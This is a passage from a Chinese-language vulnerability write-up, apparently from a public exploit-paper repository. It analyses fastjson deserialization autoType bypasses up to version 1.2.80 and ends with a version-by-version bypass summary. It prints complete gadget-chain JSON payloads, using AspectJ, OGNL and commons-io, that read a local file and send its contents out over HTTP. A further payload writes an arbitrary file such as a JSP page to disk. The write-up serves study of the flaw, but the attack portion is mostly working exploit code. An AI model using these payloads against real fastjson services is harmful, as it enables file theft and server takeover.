      <artifactId>ognl</artifactId>
      <version>3.2.21</version>
    </dependency>
    <dependency>
      <groupId>commons-io</groupId>
      <artifactId>commons-io</artifactId>
      <version>2.2</version>
    </dependency>


```

这个将文件读取的结果进行 http 外带

poc1：

```
[{
  "@type": "java.lang.Exception",
  "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
 },
 {
  "@type": "java.lang.Class",
  "val": {
   "@type": "java.lang.String" {
    "@type": "java.util.Locale",
    "val": {
     "@type": "com.alibaba.fastjson.JSONObject",
     {
      "@type": "java.lang.String"
      "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
      "newAnnotationProcessorUnits": [{}]
     }
    }
   },
   {
    "x": {
     "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
     "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
     "fileName": "aaa"
    }
   }]


```

poc2:

```
{
 "su14": {
  "@type": "java.lang.Exception",
  "@type": "ognl.OgnlException"
 },
 "su15": {
  "@type": "java.lang.Class",
  "val": {
   "@type": "com.alibaba.fastjson.JSONObject",
   {
    "@type": "java.lang.String"
    "@type": "ognl.OgnlException",
    "_evaluation": ""
   }
  },
  "su16": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",
     "stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
                                "@type": "org.apache.commons.io.input.ReaderInputStream",
       "reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": {
         "@type": "java.lang.String" {
          "@type": "java.util.Locale",
          "val": {
           "@type": "com.alibaba.fastjson.JSONObject",
           {
            "@type": "java.lang.String"
            "@type": "java.util.Locale",
            "language": "http://127.0.0.1:8080/?test",
            "country": {
             "@type": "java.lang.String" [{
              "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
              "fileName": "C:/Windows/win.ini"
             }]

            }
           }
          },
          "charsetName": "UTF-8",
          "bufferSize": 1024
         },
         "boms": [{
          "@type": "org.apache.commons.io.ByteOrderMark",
          "charsetName": "UTF-8",
          "bytes": [
           36
          ]
         }]
        }
       }
      }
     },
     "su17": {
      "$ref": "$.su16.node.p.stream"
     },
     "su18": {
      "$ref": "$.su17.bOM.bytes"
     }
    }


```

一步步来看，首先是这个：

```
[{
  "@type": "java.lang.Exception",
  "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
 }


```

利用 expectClass 绕过 checkAutoType 检测，并将 SourceTypeCollisionException 类进行缓存，以便绕过对 SourceTypeCollisionException 类的 checkAutoType 的检测

```
{
  "@type": "java.lang.Class",
  "val": {
   "@type": "java.lang.String" {
    "@type": "java.util.Locale",
    "val": {
     "@type": "com.alibaba.fastjson.JSONObject",
     {
      "@type": "java.lang.String"
      "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
      "newAnnotationProcessorUnits": [{}]
     }
    }
   },


```

这一步会调用 ParserConfig.getDeserializer 为 newAnnotationProcessorUnits 所在的类 ICompilationUnit 创建 deserializer 并放入缓存，以便绕过对 ICompilationUnit 类的 checkAutoType 的检测

```
{
    "x": {
     "@type": "org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
     "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
     "fileName": "aaa"
    }
   }]


```

这里同样利用 expectClass 绕过 checkAutoType 并将 BasicCompilationUnit 类进行缓存，以便绕过对 BasicCompilationUnit 类的 checkAutoType 的检测

然后是 poc2

```
{"su14": {
  "@type": "java.lang.Exception",
  "@type": "ognl.OgnlException"
 },


```

对 OgnlException 进行缓存，以便绕过对 OgnlException 类的 checkAutoType 的检测

```
"su15": {
  "@type": "java.lang.Class",
  "val": {
   "@type": "com.alibaba.fastjson.JSONObject",
   {
    "@type": "java.lang.String"
    "@type": "ognl.OgnlException",
    "_evaluation": ""
   }
  },


```

这一步会调用 ParserConfig.getDeserializer 为_evaluation 所在的类 Evaluation 创建 deserializer 并放入缓存，以便绕过对 Evaluation 类的 checkAutoType 的检测

```
"su16": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",


```

调用 Evaluation 类的构造函数，传入 node 参数

node 为 ASTMethod 类，调用 ASTMethod 类的构造函数，传入 p 参数，p 为 OgnlParser 类

```
"stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
                                "@type": "org.apache.commons.io.input.ReaderInputStream",
                                .....
                        "boms": [{
          "@type": "org.apache.commons.io.ByteOrderMark",
          "charsetName": "UTF-8",
          "bytes": [
           36
          ]
         }]


```

再调用 OgnlParser 类的构造函数，传递 stream 参数

stream 为 BOMInputStream 类，再调用 BOMInputStream 类的构造函数，传递 delegate、boms 参数

再调用 ReaderInputStream 类的构造函数

```
"reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": {
         "@type": "java.lang.String" {
          "@type": "java.util.Locale",
          "val": {
  ...
"charsetName": "UTF-8",
"bufferSize": 1024


```

传递 reader、charsetName、bufferSize 参数，reader 为 URLReader 类，调用 URLReader 类的构造函数，传递 url 参数，url 为 String 类型

一些细节需要注意：

`"@type": "java.lang.String" {`会调用 parse 解析后面整个对象，然后调用 toString() 返回

`"@type": "java.lang.String" [`和 {的一样

`"@type": "java.lang.String" "`会直接返回后面第一个双引号引起来的字符串，然后交给其他类进行解析


image-20230323185208197

回到这里

```
"reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": {
         "@type": "java.lang.String" {
          "@type": "java.util.Locale",
          "val": {


```

他会把后面当成对象解析

获取 Locale 的 deserializer(MiscCodec)，然后调用 deserializer 的 deserialize 方法

val 为 JSONObject 类，将 val 作为对象解析

```
"@type": "com.alibaba.fastjson.JSONObject",
           {
            "@type": "java.lang.String"
            "@type": "java.util.Locale",
            "language": "http://127.0.0.1:8080/?test",
            "country": {
             "@type": "java.lang.String" [{
              "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
              "fileName": "C:/Windows/win.ini"
             }]

            }
           }
          },


```

这里调用 Locale 的构造函数，传 language 和 country，并封装成 BaseLocale 类型赋值给 baseLocale 属性


image-20230324105234862

在 country 里，会调用 BasicCompilationUnit 的构造函数，传递 fileName 参数

```
"@type": "java.lang.String" {
          "@type": "java.util.Locale",
          "val": {
           "@type": "com.alibaba.fastjson.JSONObject",
           {
            "@type": "java.lang.String"
            "@type": "java.util.Locale",
            "language": "http://127.0.0.1:8080/?test",
            "country": {
             "@type": "java.lang.String" [{
              "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
              "fileName": "C:/Windows/win.ini"
             }]

            }
           }
          },

         },


```

最后将 val 的解析结果封装成 JSONObject，这时候会调用 BasicCompilationUnit 的 getter 方法


image-20230324110910161

在 BasicCompilationUnit 的 getContents 方法中读取文件，并返回字节数组，同时调用其他 getter 方法，将属性值不为 null 的封装到 JSONObject 中


image-20230324111144862


image-20230324111429197

之前说过，`"@type": "java.lang.String" {`会调用 parse 解析后面整个对象，然后调用 toString() 返回，所以会调用 Locale.toString() 方法返回字符串给 url


image-20230324115223197

会将 baseLocale 的属性使用`_`分割并组装


image-20230324115452200

```
"su17": {
 "$ref": "$.su16.node.p.stream"
},
"su18": {
 "$ref": "$.su17.bOM.bytes"
}


```

##### 小插曲

`"$ref": "$.su16.node.p.stream"`表示引用根对象下`su16`对象的`node`对象下的`p`对象下的`stream`

对于引用来说，在 DefaultJSONParser 的 parseObject 中，当解析到引用时并不会立即解析，而是先编译然后加到任务队列


image-20230324091028099

然后使用 null 作为该引用的解析结果，然后返回到外层 JSON.parse 中


image-20230324091144387


image-20230324091403749

然后在 JSON.parse 中处理所有引用关系，此时开始真正解析引用类型


image-20230324091656739

在 handleRsovleTask 中，遍历任务队列，解析引用类型，然后调用 getObject 拿到该引用类型的值


image-20230324091856140

在 getObject 中比较简单，遍历所有树节点，这些树节点是提前解析好的了，已经有对应的值存储在节点里，然后判断该引用是否跟节点相同，相同就返回节点对应的值。


image-20230324092023784

`$.su16.node.p.stream`的值为 BOMInputStream


image-20230324092459474

第二次解析`$.su17.bOM.bytes`由于在之前所有节点中并没有该引用，所以返回 null


image-20230324092533815

refValue 为 null 时，会解析该封装成 JSONPath，并调用 eval 解析


image-20230324092746012

然后会将 JSONPath 分成三个属性段，第一个为 su17，第二个为 bOM，第三个为 bytes


image-20230324093019199

然后调用 eval 方法取每个属性段的值


image-20230324093130670

然后在 JSONPath.getPropertyValue 方法中

如果 currentObject 是 Map 类型，他首先会在 currentObject 取属性段的值。若不是 Map 类型，则调用 getter 方法去取对应属性的值。


image-20230324093654128


image-20230324093338660

为什么不合在一起写成`"$ref": "$.su16.node.p.stream.bom.bytes"`？

一开始从节点中找不到这个`$.su16.node.p.stream.bom.bytes`，所以 refValue 为 null，然后调用 JSONPath.eval 解析该路径，JSONPath.eval 会将该路径解析成一个个属性段，然后将调用属性段的 eval 方法将返回值给 currentObject，下次循环再将 currentObject 进行传参调用 eval 方法


image-20230324095437656

所以这个路径`$.su16.node.p.stream.bom.bytes`是这样解析的

1.  $ 的值为 Evaluation 类
    
2.  然后调用 Evaluation 类的 getNode 方法获取 node(ASTMethod 类)
    
3.  然后 ASTMethod 类的 getter 方法获取 p，由于 p 没有 getter 方法所以返回 null
    
4.  然后将 currentObjct(null) 作为参数接着执行属性段的 eval 方法
    
5.  然后在 JSONPath.getPropertyValue 方法判断 currentObjct 为 null，所以返回 null，再赋值给 currentObject
    
6.  所以 p 属性段的解析结果为 null，后面继续循环 4-6 步骤
    
7.  最终返回 currentObject 为 null
    

```
"su17": {
 "$ref": "$.su16.node.p.stream"
},
"su18": {
 "$ref": "$.su17.bOM"
}


```

su17 拿到 BOMInputStream 对象，然后调用 getBOM 方法


image-20230324114219158

调用 in.read()，in 为 ReaderInputStream


image-20230324114350003


image-20230324114416652

reader 为 URLReader，调用 URLReader 的 read() 方法


image-20230324114544453

调用 getReader 方法


image-20230324114630866

url 封装了读取文件的结果，将 url 作为参数，调用 Source.readFully() 方法


image-20230324114741741

发起请求，将读取的文件外带

### 写文件

#### 使用 ognl 库配合 commons-io 库

这条链配合了 commons-io 那条链（XmlStreamReader 链来完成文件读写操作）

```
    {
 "su14": {
  "@type": "java.lang.Exception",
  "@type": "ognl.OgnlException"
 },
 "su15": {
  "@type": "java.lang.Class",
  "val": {
   "@type": "com.alibaba.fastjson.JSONObject",
   {
    "@type": "java.lang.String"
    "@type": "ognl.OgnlException",
    "_evaluation": ""
   }
  },
  "su16": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",
     "stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
       "@type": "org.apache.commons.io.input.ReaderInputStream",
       "reader": {
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aa大于8192个字符"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
            "branch":{
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"1.jsp",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
       "charsetName": "UTF-8",
       "bufferSize": 1024
      },
      "boms": [{
       "@type": "org.apache.commons.io.ByteOrderMark",
       "charsetName": "UTF-8",
       "bytes": [
        36,82
       ]
      }]
     }
    }
   }
  },
  "su17": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",
     "stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
       "@type": "org.apache.commons.io.input.ReaderInputStream",
       "reader": {
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{"$ref": "$.su16.node.p.stream.delegate.reader.is.input"},
        "branch":{"$ref": "$.su16.node.p.stream.delegate.reader.is.branch"},
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
       "charsetName": "UTF-8",
       "bufferSize": 1024
      },
      "boms": [{
       "@type": "org.apache.commons.io.ByteOrderMark",
       "charsetName": "UTF-8",
       "bytes": [
        36,82
       ]
      }]
     }
    }
   }
  },
  "su18": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",
     "stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
       "@type": "org.apache.commons.io.input.ReaderInputStream",
       "reader": {
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{"$ref": "$.su16.node.p.stream.delegate.reader.is.input"},
        "branch":{"$ref": "$.su16.node.p.stream.delegate.reader.is.branch"},
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
       "charsetName": "UTF-8",
       "bufferSize": 1024
      },
      "boms": [{
       "@type": "org.apache.commons.io.ByteOrderMark",
       "charsetName": "UTF-8",
       "bytes": [
        36,82
       ]
      }]
     }
    }
   }
  },
  "su19": {
   "@type": "ognl.Evaluation",
   "node": {
    "@type": "ognl.ASTMethod",
    "p": {
     "@type": "ognl.OgnlParser",
     "stream": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
       "@type": "org.apache.commons.io.input.ReaderInputStream",
       "reader": {
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{"$ref": "$.su16.node.p.stream.delegate.reader.is.input"},
        "branch":{"$ref": "$.su16.node.p.stream.delegate.reader.is.branch"},
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
       "charsetName": "UTF-8",
       "bufferSize": 1024
      },
      "boms": [{
       "@type": "org.apache.commons.io.ByteOrderMark",
       "charsetName": "UTF-8",
       "bytes": [
        36,82
       ]
      }]
     }
    }
   }
  }, 
 }


```

这里的原理和上面的读文件相同，只不过在构造 ReaderInputStream 时，传入的 reader 为 XmlStreamReader，触发了 commons-io 文件读写那条链

后面`su17、su18、su19`是为了触发三次写入，之前说过写一次限制为 4096 字节，而只有当写入超过 8192 字节才会刷新缓存区真正写入到文件中；

XmlStreamReader 在构造器方法中会触发 doRawStream() 方法，在 doRawStream() 方法中触发 getBOMCharsetName()，在 getBOMCharsetName() 中触发 getBOM()，getBOM() 触发 TeeInputStream 的 read() 方法，此时 TeeInputStream 为同一个对象（因为引用了上一个对象），就可以达循环读写。

### 总结

还有其他一些比较冷门的利用链，就没必要看了

fastjson=1.2.83
---------------

1.2.83 中，在 ParserConfig 的 checkAutoType 中，

若为 Throwable 的子类，则 clazz 置 null，并返回


image-20230325133416331

同时类名以 Exception 或者 Error 结尾的都会返回 null


image-20230325134824889

两层防御导致有关 ThrowableDeserializer 那条链的绕过失效；

重新审视这张图

image-20230320144417368

唯一能利用 expectClass 进行绕过的只有 JavaBeanDeserializer 这条链，而需要有一个类满足一些条件，且他的 deserializer 为 JavaBeanDeserializer，这时就可以绕过 checkAutoType 的检测；

1.2.83 及以上未爆出新的漏洞了，但是根据 FastJSON 的尿性，估计肯定还会有不少漏洞，肯定也有不少师傅存着一些 POC 在偷偷利用也说不定；

总结
--

1.2.24 之下无限制，随便玩

1.2.25 到 1.2.41 新增黑白名单，使用`L`开头`;`结尾进行绕过

1.2.42 双写`L`开头`;`结尾进行绕过

1.2.43 使用`[`进行绕过

1.2.47 及以下使用 MiscCodec 类刷新缓存绕过

1.2.48cache 为 false，不给存入缓存

1.2.48 到 1.2.80 利用 expectClass 绕过

-1.2.48 到 1.2.68 使用 AutoCloseable 进行绕过

-1.2.69 到 1.2.80 使用 ThrowableDeserializer 进行绕过

Reference
---------

*   https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6
    
*   https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg
    
*   http://scz.617.cn:8/web/202008100900.txt
    
*   http://x2y.pw/2020/11/15/fastjson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%95%B4%E7%90%86/
    
*   https://www.anquanke.com/post/id/203086
    
*   https://wiki.wgpsec.org/knowledge/ctf/JDBC-Unserialize.html

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
